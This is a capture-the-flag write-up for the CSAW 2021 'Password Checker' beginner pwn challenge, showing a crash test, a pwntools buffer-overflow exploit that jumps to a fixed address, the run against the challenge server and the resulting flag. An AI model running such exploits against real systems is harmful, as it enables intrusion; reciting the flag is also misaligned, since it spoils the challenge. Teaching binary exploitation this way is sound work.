


# Password Checker

Writeup by: [GoProSlowYo](https://github.com/GoProSlowYo)

Team: [OnlyFeet](https://ctftime.org/team/144644)

Writeup URL: [GitHub](https://infosecstreams.github.io/csaw21/password-checker/)

----

```text
Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

nc pwn.chal.csaw.io 5000
```

## Initial Research

We figured this was a basic buffer overflow.

```bash
$ echo $(python -c 'print("A"*100)') | ./password_checker 
Enter the password to get in: 
>This is not the password[1]    45964 done                echo $(python -c 'print("A"*100)') | 
       45966 segmentation fault  ./password_checker
```



## Exploit

`$ pwn template > exploit.py`

```python
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
context.terminal = ['tmux', 'splitw', '-h']
exe = './password_checker'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwn.chal.csaw.io', 5000)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

buf = b''
buf += b'A' * (8 * 9)
buf += p64(0x401172)

io.sendlineafter('>', buf)

io.interactive()
```

## Victory

Run the exploit:

```shell
$ python3 exploit.py REMOTE
[+] Opening connection to pwn.chal.csaw.io on port 5000: Done
[*] Switching to interactive mode
This is not the password$ cat flag.txt
flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}
$
```



Submit the flag and claim the points:

**flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}**
